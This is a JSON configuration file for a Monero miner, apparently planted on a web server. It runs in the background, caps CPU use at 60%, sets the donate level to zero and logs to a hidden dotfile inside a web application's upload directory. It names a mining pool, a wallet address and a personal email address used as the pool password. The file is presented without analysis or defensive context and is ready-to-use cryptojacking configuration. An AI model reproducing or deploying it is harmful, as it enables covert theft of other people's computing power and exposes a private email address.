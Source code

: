 {
    "algo": "cryptonight",
    "background": true,
    "colors": true,
    "retries": 5,
    "retry-pause": 5,
    "donate-level": 0,
    "syslog": false,
    "log-file": "/opt/www/heart-failure2/heart-failure/uploadfile/.l.txt",
    "print-time": 60,
    "av": 0,
    "safe": false,
    "max-cpu-usage": 60,
    "cpu-priority": null,
    "threads": null,
    "pools": [
        {
            "url": "xmr-eu.dwarfpool.com:8005",
            "user": "48jNbzBLAeej3gnEovyFZrEhMg8fkGieTP64Vef8LcnnR7Kg64aswsMP2uJLJG8nBScA7Cqc4ccb1hvGSbMzSwz7MzuMZmZ.room",
            "pass": "s320372008@gmail.com",
            "keepalive": true,
            "nicehash": false
        }
    ],
    "api": {
        "port": 0,
        "access-token": null,
        "worker-id": null
    }
}

